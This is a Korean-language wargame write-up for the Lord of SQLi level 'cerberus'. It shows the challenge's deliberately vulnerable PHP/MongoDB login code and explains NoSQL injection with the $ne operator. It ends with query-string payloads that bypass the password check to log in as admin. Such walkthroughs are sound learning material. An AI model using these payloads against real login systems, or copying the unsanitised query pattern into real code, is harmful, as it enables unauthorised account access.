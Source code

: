 ```yaml
---
title : "LOS Lv.46 cerberus"
categories : [Wargame, rubiya]
tags : [NOSQLi]
---
```


## cerberus
```php
query : {"id":null,"pw":null}

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

## Solution
```
이번엔 monngodb임. 
mongodb는 여태했던 sql문을 쓰지 않음.

따라서 NOSQL(Non SQL) Injection을 사용해야 함.
```
<a href="https://www.netsparker.com/blog/web-security/what-is-nosql-injection/" target="_blank">https://www.netsparker.com/blog/web-security/what-is-nosql-injection/</a>  
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" target="_blank">NOSQL Cheat Sheet</a>  
<a href="https://doorbw.tistory.com/38?category=677965" target="_blank">MONGODB 설명</a>
```
위 문제에서 입력값을 넣어주면 double quotes로 감싸져있고,

single quote 등을 입력하면 escape 처리를 해버림.

그래서 배열 형태로 입력해줘야함.
```
NOSQL 기본 형태는 다음과 같음.
```
{"id":{"$ne": 1},"pw":{"$ne": 1}}  

-> $ne 연산자는 not equal로 id와 pw 값이 1과 다르므로 true가 되서
   모든 값을 가져올 것임.
```
연산자가 매우 중요한 듯함.
```
$eq : == 

$gt : >

$gte : >=

$lt : <

$lte : <=

$ne : !=

$in : 주어진 배열에 속하는값

$nin : 주어진 배열에 속하지 않는 값 
```
```
?id[$ne]=1&pw[$ne]=1
??id=admin&pw[$ne]=1
```